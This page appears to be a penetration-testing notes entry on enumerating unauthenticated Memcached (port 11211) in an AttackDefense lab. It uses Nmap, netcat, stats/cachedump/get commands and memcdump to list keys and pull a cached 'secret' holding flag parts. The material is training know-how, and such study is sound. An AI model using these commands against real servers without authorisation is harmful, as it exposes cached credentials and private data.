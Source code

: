 ```yaml
---
description: >-
  Memcached is a general-purpose distributed memory-caching system. It is often
  used to speed up dynamic database-driven websites by caching data and objects
  in RAM
---
```


# 11211 - Memcached

**Nmap**:&#x20;

```
root@attackdefense:~# nmap --script memcached-info -p 11211 192.170.149.3 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-30 10:54 UTC 
Nmap scan report for target-1 (192.170.149.3) 
Host is up (0.000053s latency). 
 
PORT      STATE SERVICE 
11211/tcp open  memcache 
| memcached-info:  
|   Process ID: 7 
|   Uptime: 1037 seconds 
|   Server time: 2019-10-30T10:54:06 
|   Architecture: 64 bit 
|   Used CPU (user): 0.101069 
|   Used CPU (system): 0.148907 
|   Current connections: 3 
|   Total connections: 9 
|   Maximum connections: 2147 
|   TCP Port: 11211 
|   UDP Port: 0 
|_  Authentication: no 

MAC Address: 02:42:C0:AA:95:03 (Unknown) 
```

**Connecting:**

```
root@attackdefense:~# nc 192.170.149.3 11211
```

**You can query the current traffic statistics using the command**&#x20;

```
stats
```

**View items:**&#x20;

```
stats items
```

Example:

```
ITEM username [5 b; 0 s] 
ITEM email [18 b; 0 s] 
ITEM name [4 b; 0 s] 
END 
stats cachedump 5 0 
ITEM secret [142 b; 0 s] 
END 
stats cachedump 25 0 
ITEM image [19514 b; 0 s] 
END 
```

**view key:**&#x20;

```
get secret 
VALUE secret 0 142 
(dp0 
S'flag-part-1' 
p1 
S'886a1cb' 
p2 
sS'flag-part-2' 
p3 
S'00dfaa588' 
```

## **memcdump**

memdump dumps a list of "keys" from all servers that it is told to fetch from. Because memcached does not guarentee to provide all keys it is not possible to get a complete "dump".

```
root@attackdefense:~# memcdump --server 192.170.149.3 
maxUsers 
last-update 
maintainer
```
